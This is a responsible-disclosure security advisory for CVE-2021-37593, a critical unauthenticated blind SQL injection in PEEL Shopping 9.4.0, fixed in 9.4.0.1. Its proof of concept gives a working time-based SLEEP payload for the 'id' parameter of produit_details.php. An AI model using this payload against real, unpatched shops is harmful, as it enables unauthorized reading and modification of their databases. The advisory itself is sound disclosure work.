 
**Title:** Unauthenticated Blind SQL Injection vulnerability In PEEL Shopping 

**Product:** PEEL Shopping

**Vulnerable Version:** 9.4.0 

**Fixed Version:** 9.4.0.1 

**CVE ID:** CVE-2021-37593 

**Impact:** Critical 

**CVSS v3 Score:** 9.1 - CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N

**Homepage:** https://www.peel-shopping.com/

**Date of Discovery:** 10 July 2021

**Author:** Mohammad Faisal Sammio | NetbyteSEC


----

## Vendor/product description:

*"PEEL SHOPPING is a free ecommerce CMS in PHP / MySQL, that is to say a a modern and safety management tool that lets you manage your product catalog, the text on your website and everything else from a single, simple and efficient administrative interface. Since 2004, PEEL brings innovation and reliability to the world of e-commerce by offering tailored solutions to create complete and simple online shops at suitable prices for everyone."
Source: https://www.peel-shopping.com/*



## Vulnerability overview:

PEEL Shopping version 9.4.0 allows remote SQL injection. A public user/guest (unauthenticated) can inject a malicious SQL query in order to affect the execution of predefined SQL commands. Upon a successful SQL injection attack, an attacker can read sensitive data from the database and possibly modify database data.



## Proof Of Concept:
 
- The following concept could be used to perform blind SQL injection attack:

      METHOD : GET
      PARAMETER : id
      PAYLOAD : (SELECT * FROM (SELECT(SLEEP(5)))NBSX)
      URL : http://localhost/peel-shopping_9.4.0/achat/produit_details.php?id=[SQL-INJECTION]

- As a proof of concept for exploiting the blind SQL injection, requesting the following URL will cause a time delay.

      http:// localhost/peel-shopping_9.4.0/achat/produit_details.php?id=(SELECT * FROM (SELECT(SLEEP(5)))NBSX)


## Tested Versions: 

The vulnerability has been verified to exist in the PEEL Shopping version 9.4.0. It was found in this version, which was updated and released below a week just prior to the discovery.


## Vendor Contact Timeline:

    2021-07-10: Contacting vendor through email.
    2021-07-12: Request update from vendor, sending advisory draft and proof of concept.
    2021-07-13: Vendor acknowledge and confirms security issue.
    2021-07-14: Vendor response with security patches available on their website.
    2021-07-26: Public release of security advisory
 
## Solution:

Update to latest version 9.4.0.1 on their website.

https://www.peel-shopping.com/modules/telechargement/telecharger.php?id=7


